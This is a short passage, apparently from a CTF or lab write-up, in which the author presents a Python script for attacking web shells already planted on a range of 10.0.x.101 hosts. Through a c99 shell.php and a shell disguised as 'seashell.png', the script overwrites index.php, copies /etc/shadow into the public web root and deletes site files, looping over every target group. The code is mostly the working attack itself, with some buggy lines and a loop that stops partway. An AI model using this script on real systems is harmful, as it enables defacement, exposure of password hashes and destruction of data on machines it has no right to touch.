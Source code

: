 I ended up just scripting the whole thing because this was a waste of time.

<pre class="height-set:true height:300 lang:python decode:true">import requests
import time
from optparse import OptionParser

timeout = 5

parser = OptionParser()
parser.add_option("-x",  dest="host",
                  help="Choose an individual host to test")

(options, args) = parser.parse_args()
print(options.host)

def c99(group):
   try: 
       r = requests.get("http://10.0." + str(group)  + ".101/shell.php?act=cmd&cmd=echo+%22balls%22+%3E+%2Fvar%2Fwww%2Findex.php&d=%2Fusr%2Flib%2Fcgi-bin%2F&submit=Execute&cmd_txt=1")
       print(r.text())
       if r.status_code == 200:
         cresult=1
	 print(cresult)
       else: cresult=2
   except:
       cresult=3

   return cresult

def shell(group):
   try:
       r = requests.get('http://10.0.' + str(group) + '.101/seashell.png?command=cat%20/etc/shadow&gt;/var/www/index.htm', timeout=timeout)

       r = requests.get('http://10.0.' + str(group) + '.101/seashell.png?command=rm%20/var/www/index.php', timeout=timeout)
       if r.status_code == 200:
          sresult= 1
	  print(sresult)
       else:
	  sresult = 2
   except:
       sresult = 3
   return sresult

if options.host:
   print(c99(options.host))
   print(shell(options.host))
else:
 while True: 
   result = []  
   for group in range(200,213):
        print("Trying c99 on %s" % group)
    	if (c99(group)) == 1:
	   result.append(group)
	print("Trying shell method %s" % group)
        if shell(group) == 1:
	   result.append(group)
	print("----")
